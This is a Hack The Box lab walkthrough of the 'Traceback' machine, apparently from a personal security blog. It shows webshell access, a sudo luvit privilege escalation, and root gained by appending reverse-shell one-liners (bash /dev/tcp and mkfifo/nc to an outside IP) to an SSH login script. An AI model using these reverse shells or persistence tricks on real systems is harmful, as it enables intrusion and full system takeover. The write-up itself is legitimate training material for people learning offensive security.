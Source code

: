 ```yaml
---
layout: post
title: Traceback Machine Walkthrough
description: >
    Traceback Hackthebox Machine Detailed Walkthrough
sitemap: false
categories: [Hackthebox]
permalink: /:categories/traceback.html
---
```


***"Aim for the sky, but move slowly, enjoying every step along the way. It is all those little steps that make the journey complete."*** - Chanda Kochhar
{:.lead}
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/machine.jpeg)

## Machine Matrix
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/matrix.png)

## Machine Summary
Box is a linux machine that has a webserver running which is backdoored with a webshell. Upon getting the shell with webadmin access, privilege escalation to sysadmin can be done with misconfigured permissions of executing **luvit** i.e luvit can be executed as sysadmin without the password. On a successfull login onto the ssh, /etc/update-motd.d/ gets executed with root privilege, rewritting a file in it with reverse shell would grant us the root privilege.

## Nmap Scan
I started the enumeration with nmap scan
```bash
nmap -sC -sV 10.10.10.181
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/1.png)

The box had two ports open
| Port         | Service           |
|:-------------|:------------------|
| 22           | SSH               |
| 80           | Apache            |

## Enumeration on port 80
I started to enumerate on the webserver, it said "This site has been owned I have left a backdoor for all the net. FREE INTERNETZZZ -Xh4H- "

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/2.png)

Viewing the source of the page gave me a hint about the web shells, so i went on to search about Xh4H related to webshells on google

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/3.png)

## Acquiring Initial Foothold (Webadmin)
I found the web-shells repository of Xh4H, i tried putting all the web-shells in the repository on the url (http://10.10.10.181)

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/4.png)

At last, found that smevk.php is the web-shell that has been backdoored on the machine.

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/5.png)

The webshell has username and password as "admin" that i found on viewing the source of the webshell smevk.php

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/6.png)

To grant me the full fleged shell, i decided to upload a bash script that could grant me a proper shell
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/7.png)

## Acquiring User Shell (Sysadmin)
I have the shell as webadmin, now i need to enumerate and esaclate my privileges to a user. Upon enumeration, i found that no password is required to execute /home sysadmin/luvit using the command
```bash
sudo -l
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/8.png)

Upon googling some time, i made a command that can grant me a shell as sysadmin
```bash
sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/9.png)

I got the user, moving on to the getting the root

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/10.png)

Now i started to enumerate on the privileges of sysadmin that can be the way for root privilege escalation. Manual enumeration didnt work it out for me, so i ran linpeas but that also didnt work out. So i decided to monitor the processes that are running using pspy. I added my ssh public key in the on sysadmin/.ssh authorized_keys and transfered the pspy64 to the machine.

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/11.png)

## Acquiring Root Shell
I found that /etc/update-motd.d/ gets modified and executed each time when a user logs in through ssh

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/12.png)

I also confirmed that /etc/update-motd.d/ has files that are writable by the user sysadmin
```bash
find /etc -writable
```
I enumerated on the directory it had 4 files
```
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/14.png)

I decided to have a bash script on /etc/update-motd.d/00-header so i added rev-shell using the command
```bash
echo "bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'" >> /etc/update-motd.d/00-header 
```
Now i logged on to ssh in a new tab with a listener on other tab hopping to get reverse connection but that didnt worked out. Upon researching i found that the modification that we made to the file isn't properly getting safed.
```bash
echo "rm /tmp/m;mkfifo /tmp/m;cat /tmp/m|/bin/sh -i 2>&1|nc 10.10.14.158 9090 > /tmp/m" >> /etc/update-motd.d/00-header
```
I got the reverse shell with root privileges

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/15.png)

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/16.png)

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/pwned.png)